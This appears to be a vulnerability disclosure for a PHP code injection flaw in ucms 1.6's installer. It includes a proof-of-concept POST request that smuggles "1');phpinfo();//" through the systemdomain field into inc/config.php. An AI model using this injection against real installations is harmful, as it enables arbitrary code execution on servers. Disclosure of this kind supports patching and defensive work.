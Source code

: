 # ucms 1.6 PHP Code injection 
ucms 1.6 is vulnerable to Code Injection via /intsall/index.php

# Vulnerability Type :
PHP Code injection 

# Vulnerability Version :
1.6.0


# Vulnerability Description:

line 183 in install/index.php

![](https://github.com/imkitsch/CVE/blob/main/ucms/20211127171241.png)

and write to inc/config.php

![](https://github.com/imkitsch/CVE/blob/main/ucms/20211127171827.png)

poc:

POST /install/index.php?step=2

database=mysqlpdo&mysql_host=127.0.0.1&mysql_dbname=ucms&mysql_user=root&mysql_password=root&sqlite_dbfile=c66a432720a73177.db&tableex=ucms_&systemdomain=1');phpinfo();//&urlrewrite=0&uuuadminname=admin&uuuadminpassword=admin&uuuadminpassword2=admin

![](https://github.com/imkitsch/CVE/blob/main/ucms/20211127172003.png)

Injection php code to inc/config.php

![](https://github.com/imkitsch/CVE/blob/main/ucms/20211127172132.png)

access index.php to get the phpinfo page

